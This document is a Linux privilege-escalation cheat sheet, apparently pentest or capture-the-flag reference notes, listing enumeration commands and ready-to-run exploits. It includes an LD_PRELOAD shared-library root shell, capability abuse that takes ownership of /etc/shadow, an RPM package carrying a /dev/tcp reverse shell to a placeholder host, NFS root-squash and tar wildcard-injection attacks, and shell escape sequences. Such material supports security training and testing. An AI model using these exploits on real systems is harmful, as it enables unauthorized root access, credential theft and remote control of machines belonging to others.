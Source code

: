 # Linux Privilege Escalation
## Misconfiguration
- Find writable directories
	`find / -path /proc -prune -o -type d -perm -o+w 2>/dev/null`
- Find writable directories in PATH
	`IFS=':'; read -a patharr <<< "$PATH"; for dir in ${patharr[@]}; do if [ -w $dir ]; then echo -e "$dir : WRITABLE"; fi; done;`
- Find writable files
	`find / -path /proc -prune -o -type f -perm -o+w 2>/dev/null`
- Find suid binaries
	`find / -perm /4000 2>/dev/null`
- Find guid binaries
	`find / -perm /2000 2>/dev/null`
- Find binaries with capabilities
	`getcap -r / 2>/dev/null`
- Look for cronjob
	`crontab -l`
	`cat /etc/crontab`
- Look for nfs exports
	`cat /etc/exports`

## LD_PRELOAD
If `env_keep += LD_PRELOAD` in sudoers:
```bash
$ cat << EOF > /tmp/shell.c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
	unsetenv("LD_PRELOAD");
	setgid(0);
	setuid(0);
	system("/bin/sh");
}
EOF
$ gcc -fPIC -shared -o shell.so shell.c -nostartfiles
$ ls -al shell.so
$ sudo LD_PRELOAD=/tmp/shell.so /usr/bin/*****
# id
uid=0(root) gid=0(root) groups=0(root)
```

## Capabilities
### cap_setuid+ep
- perl
```perl
use POSIX qw(setuid);
POSIX::setuid(0);
exec "/bin/sh";
```

### cap_chown
- python
```python
import os
os.chown("/etc/shadow", 1000, 1000)
```
- ruby
```ruby
require 'fileutils'
FileUtils.chown_R 'user', 'user', '/etc/shadow'
```

## Binaries
- Look inside binaries for exploit possibilities
```
strings /path/to/binary
```
> If we find calls to an executable using relative path, we can create a malicious script using the binary name and update PATH to include the folder

## Local exploits
### yum
- Get a reverse shell using crafted rpm package

If low priv user can run yum as root, we can craft a rpm package to get a reverse shell as root:
```bash
# Create a script with reverse shell commands
# root.sh:
#!/bin/bash
bash -c 'bash -i >& /dev/tcp/0.0.0.0/4444 0>&1'

# Then use fpm docker image to build the rpm:
docker run --rm -v $(pwd):/data skandyla/fpm -n packagename -s dir -t rpm -a all --before-install /data/root.sh  -p /data /data
# Start an HTTP server and tcp listener
python -m SimpleHTTPServer 8000
nc -lnvp 4444
# On the target machine, install the rpm package:
sudo yum install http://0.0.0.0:8000/root-1.0-1.noarch.rpm
```

### nfs
- Exploit rootsquash
```sh
# Copy a bash binary to mounted NFS
cp bash /mount/point/to/nfs
# Set owner to root
sudo chown root /mount/point/to/nfs/bash
# Set uid on binary
chmod a+sx /mount/point/to/nfs/bash
# Run the binary in low privilege shell
./bash -p (in low privilege shell)
```

### tar
- Exploit tar with wildcard injection
```sh
# Example tar command: cd /folder; tar cf /backup.tgz *
# Exploit this with checkpoint injection:
cd /folder
echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" > --checkpoint=1
# Wait for tar to run as root
```

### pkexec
See this writeup for THM's road
https://wiki.thehacker.nz/docs/thm-writeups/road-medium/

## Shell escape sequence
| Tool   | Escape Sequence                                                 |
| ------ | --------------------------------------------------------------- |
| vi/vim | `:!/bin/bash`, `:set shell=/bin/bash:shell`                     |
| awk    | `awk 'BEGIN {system(\"/bin/bash\")}'`                           |
| perl   | `perl -e 'exec \"/bin/bash\";'`                                 |
| find   | `find / -exec /usr/bin/awk 'BEGIN {system(\"/bin/bash\")}' \\;` |
| nmap   | --interactive                                                   |                           


## Tools
- https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS
- https://github.com/diego-treitos/linux-smart-enumeration/blob/master/lse.sh
- https://github.com/sleventyeleven/linuxprivchecker
- https://github.com/rebootuser/LinEnum

## Guides
- https://book.hacktricks.xyz/linux-unix/privilege-escalation
- https://book.hacktricks.xyz/linux-unix/privilege-escalation/wildcards-spare-tricks
- https://www.helpnetsecurity.com/2014/06/27/exploiting-wildcards-on-linux/
- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md
- https://gtfobins.github.io/
- https://tbhaxor.com/exploiting-linux-capabilities-part-3/

## Writeups
- https://blog.tryhackme.com/skynet-writeup/
- https://s1gh.sh/tryhackme-wonderland/